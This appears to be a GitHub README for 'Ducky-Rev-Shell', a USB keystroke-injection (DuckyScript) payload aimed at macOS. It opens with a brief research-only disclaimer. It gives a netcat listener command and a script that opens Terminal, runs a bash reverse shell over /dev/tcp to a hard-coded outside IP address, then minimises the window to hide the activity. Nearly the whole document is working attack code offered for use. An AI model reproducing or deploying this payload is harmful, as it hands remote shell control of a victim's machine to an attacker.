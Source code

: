 # Ducky-Rev-Shell
Duckyscript in a bash file to get a reverse shell on MacOS.

## DISCLAIMER:
This is for security research purposes ONLY. Only use on machines where you have permission or your own.

## About
Version 1.0
<br>Author: samamsa7

## Setting up Listener
Listener set up command for Windows.
Run:
  <code><pre>nc -lvnp 87 -s 173.255.247.6</pre></code>
in Powershell, replacing the IP and port with relevant ones.

## DuckyScript Code
<code><pre>DELAY 50
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
STRING bash
DELAY 50
ENTER
DELAY 50
STRING bash -i >& /dev/tcp/173.255.247.5/87 0>&1
REM Replace IP and port above with listening host
DELAY 50
ENTER
DELAY 50
COMMAND M
DELAY 50
</pre></code>
